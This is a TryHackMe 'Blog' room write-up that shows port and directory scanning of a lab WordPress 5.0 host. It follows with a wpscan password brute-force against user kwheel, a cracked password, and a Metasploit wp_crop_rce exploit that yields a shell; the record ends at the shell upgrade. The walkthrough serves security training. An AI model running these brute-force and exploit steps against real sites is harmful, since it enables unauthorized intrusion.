

[Link to room on TryHackMe.com](https://tryhackme.com/room/blog)

Welcome to my TryHacMe-Blog-WriteUp! first we add machines ip adress on our /etc/hosts file as blog.thm: 


```
echo "10.10.153.19 blog.thm" >> /etc/hosts
```


after that we start enumeration with rustscan and nmap:


```
┌─[✗]─[root@parrot]─[/home/parrot]
└──╼ #rustscan -a blog.thm
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
You miss 100% of the ports you don't scan. - RustScan

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.153.19:22
Open 10.10.153.19:80
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-07 17:36 +03
Initiating Ping Scan at 17:36
Scanning 10.10.153.19 [4 ports]
Completed Ping Scan at 17:36, 0.37s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:36
Scanning blog.thm (10.10.153.19) [2 ports]
Discovered open port 80/tcp on 10.10.153.19
Discovered open port 22/tcp on 10.10.153.19
Completed SYN Stealth Scan at 17:36, 0.41s elapsed (2 total ports)
Nmap scan report for blog.thm (10.10.153.19)
Host is up, received reset ttl 60 (0.35s latency).
Scanned at 2024-05-07 17:36:34 +03 for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (128B)
```

```
┌─[root@parrot]─[/home/parrot]
└──╼ #nmap -sC -sV -A -Pn blog.thm -p 22,80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-07 17:38 +03
Nmap scan report for blog.thm (10.10.153.19)
Host is up (0.36s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-generator: WordPress 5.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   232.47 ms 10.17.0.1
2   ... 4
5   354.48 ms blog.thm (10.10.153.19)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.92 seconds
```


then we see in results only two ports are open. After some research we find out there is no vulnerablity for the services with this verisons. So we continue enumaration on port 80 with gobuster:


```
┌─[root@parrot]─[/home/parrot]
└──╼ #gobuster dir -u http://blog.thm/ -w common.txt -x php,html,txt,old,cgi,js
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://blog.thm/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,old,cgi,js,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 273]
/.php                 (Status: 403) [Size: 273]
/.hta                 (Status: 403) [Size: 273]
/.hta.txt             (Status: 403) [Size: 273]
/.hta.old             (Status: 403) [Size: 273]
/.hta.cgi             (Status: 403) [Size: 273]
/.htaccess            (Status: 403) [Size: 273]
/.hta.html            (Status: 403) [Size: 273]
/.htaccess.html       (Status: 403) [Size: 273]
/.htaccess.txt        (Status: 403) [Size: 273]
/.htaccess.old        (Status: 403) [Size: 273]
/.htaccess.cgi        (Status: 403) [Size: 273]
/.htaccess.js         (Status: 403) [Size: 273]
/.htaccess.php        (Status: 403) [Size: 273]
/.htpasswd.txt        (Status: 403) [Size: 273]
/.htpasswd            (Status: 403) [Size: 273]
/.htpasswd.html       (Status: 403) [Size: 273]
/.htpasswd.old        (Status: 403) [Size: 273]
/.htpasswd.cgi        (Status: 403) [Size: 273]
/.hta.php             (Status: 403) [Size: 273]
/.htpasswd.js         (Status: 403) [Size: 273]
/.hta.js              (Status: 403) [Size: 273]
/.htpasswd.php        (Status: 403) [Size: 273]
/0                    (Status: 301) [Size: 0] [--> http://blog.thm/0/]
/admin                (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]
/atom                 (Status: 301) [Size: 0] [--> http://blog.thm/feed/atom/]
/dashboard            (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]
/embed                (Status: 301) [Size: 0] [--> http://blog.thm/embed/]
/favicon.ico          (Status: 200) [Size: 0]
/feed                 (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/index.php            (Status: 301) [Size: 0] [--> http://blog.thm/]
/index.php            (Status: 301) [Size: 0] [--> http://blog.thm/]
/license.txt          (Status: 200) [Size: 19935]
/login                (Status: 302) [Size: 0] [--> http://blog.thm/wp-login.php]
/n                    (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/N                    (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/no                   (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/note                 (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/page1                (Status: 301) [Size: 0] [--> http://blog.thm/]
/rdf                  (Status: 301) [Size: 0] [--> http://blog.thm/feed/rdf/]
/readme.html          (Status: 200) [Size: 7415]
/robots.txt           (Status: 200) [Size: 67]
/rss                  (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/rss2                 (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/server-status        (Status: 403) [Size: 273]
/w                    (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/welcome/]
/W                    (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/welcome/]
/welcome              (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/welcome/]
/wp-admin             (Status: 301) [Size: 307] [--> http://blog.thm/wp-admin/]
/wp-app.php           (Status: 403) [Size: 0]
/wp-atom.php          (Status: 301) [Size: 0] [--> http://blog.thm/feed/atom/]
/wp-commentsrss2.php  (Status: 301) [Size: 0] [--> http://blog.thm/comments/feed/]
/wp-config.php        (Status: 200) [Size: 0]
/wp-content           (Status: 301) [Size: 309] [--> http://blog.thm/wp-content/]
/wp-cron.php          (Status: 200) [Size: 0]
/wp-feed.php          (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/wp-includes          (Status: 301) [Size: 310] [--> http://blog.thm/wp-includes/]
/wp-links-opml.php    (Status: 200) [Size: 233]
/wp-load.php          (Status: 200) [Size: 0]
/wp-login.php         (Status: 200) [Size: 3087]
/wp-mail.php          (Status: 403) [Size: 2768]
/wp-rdf.php           (Status: 301) [Size: 0] [--> http://blog.thm/feed/rdf/]
/wp-register.php      (Status: 301) [Size: 0] [--> http://blog.thm/wp-login.php?action=register]
/wp-rss.php           (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/wp-rss2.php          (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/wp-settings.php      (Status: 500) [Size: 0]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://blog.thm/wp-login.php?action=register]
/xmlrpc.php           (Status: 405) [Size: 42]
/xmlrpc.php           (Status: 405) [Size: 42]
Progress: 32298 / 32305 (99.98%)
===============================================================
Finished
===============================================================
```


We see there is too much directories. First we go to the robots.txt and we see there is some infos:


After some research we find out when we go to the /wp-admin its redirects us to a wordpress login page. So we found our first flag "What CMS was Billy using?" answer for this question is wordpress. When we try with some common credentials we cant login. So we need a username after some research we find out when we go the http://blog.thm and click comments after that when we click back button on the browser we see something interesting:





So we see there is a author named kwheel. Its Karen Wheeler's username. When we try for username bjoel its too exists but if we try bruteforce attack for bjoel we cant find password in rockyou.txt  . Then we start a bruteforce attack with wpscan with this command for kwheel:


```
wpscan --url http://10.10.35.12/wp-login.php -U kwheel -P /home/parrot/rockyou.txt
```


And then we find the password and during the bruteforce attack wpscan gives us the second flag "What version of the above CMS was being used?":


When we login with this credentials we see there is no plugins. After some research i found a great exploit for wordpress 5. So we use the exploit  exploit/multi/http/wp_crop_rce . and then we set options like this and run:


```
set RHOSTS blog.thm
```

```
set USERNAME kwheel
```

```
set PASSWORD cutiepie1
```

```
run
```


And we see its worked we have a meterpreter shell. Then we use this commands to get a normal shell:


```
shell
```

```
python3 -c 'import pty;pty.spawn("/bin/bash"'
```
